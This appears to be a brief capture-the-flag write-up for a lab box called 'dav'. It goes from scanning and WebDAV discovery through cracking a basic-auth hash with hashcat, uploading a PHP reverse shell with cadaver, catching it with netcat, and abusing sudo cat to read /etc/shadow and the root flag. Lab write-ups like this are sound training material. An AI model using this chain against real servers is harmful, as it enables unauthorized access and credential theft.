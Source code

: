```yaml
---
date: 2024-06-19
author: mrashco
title: dav
tags: ["", ""]
categories: 
series:
---
```

[YouTube Walkthrough](https://youtu.be/UDLqISuGiEY) 

rustscan

- 80
- Apache/2.4.18

feroxbuster

- /webdav

Try: Burpsuite - [bruteforce basic http auth](https://securityonline.info/use-burp-suite-brute-force-http-basic-authentication/)

Search - [webdav default credentials](https://search.brave.com/search?q=webdav+default+credentials&source=web) [^](https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html)

- w*****:x*****

`hashid $hash`

Try: MD5(APR) or Apache MD5 [^](https://hashcat.net/wiki/doku.php?id=example_hashes)

- `hashcat -m 1600 hash.txt $rockyou.txt`

`cadaver <http://$ip/webdav`> [^](https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/)

- revshell = shell.php
- `put shell.php`
- `nc -lnvp $port`
- `http://$ip/webdav/shell.php`

Upgrade Shell

- `python3 -c "import pty; pty.spawn('/bin/bash')"`
- `[CTRL+Z]`
- `stty raw -echo;fg`
- `export TERM=xterm`

PrivEsc [^](https://www.hackingarticles.in/linux-for-pentester-cat-privilege-escalation/)

- `sudo -l` = `/bin/cat`
- `cat /etc/shadow`
- `cat /root/root.txt`